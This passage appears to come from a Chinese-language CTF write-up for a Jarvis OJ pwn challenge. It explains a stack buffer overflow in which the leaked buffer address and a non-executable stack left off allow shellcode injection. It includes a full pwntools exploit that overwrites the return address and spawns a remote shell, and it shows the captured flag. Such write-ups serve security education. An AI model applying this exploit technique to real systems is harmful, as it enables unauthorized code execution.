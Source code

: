   在read处溢出，前面输出buf的地址

  没有system函数

  ![15](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/15.png)

  没有开启NX，可以用shellcode

  buf的大小为0x88，输入shellcode，填充buf，覆盖ebp，把返回地址改为buf的地址

  ```python
  from pwn import *
  r = remote('pwn2.jarvisoj.com', 9877)
  context(log_level = 'debug', arch = 'i386', os = 'linux')
  shellcode = asm(shellcraft.sh())
  a = r.recvline()[14: -2]
  buf = int(a,16)
  payload = shellcode + 'a'*(0x88+0x4-len(shellcode)) + p32(buf)
  r.sendline(payload)
  r.interactive()
  
  ```

  ![16](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/16.png)

  `CTF{82c2aa534a9dede9c3a0045d0fec8617}`

  

* #### [XMAN]level2

  在read处溢出，有system函数
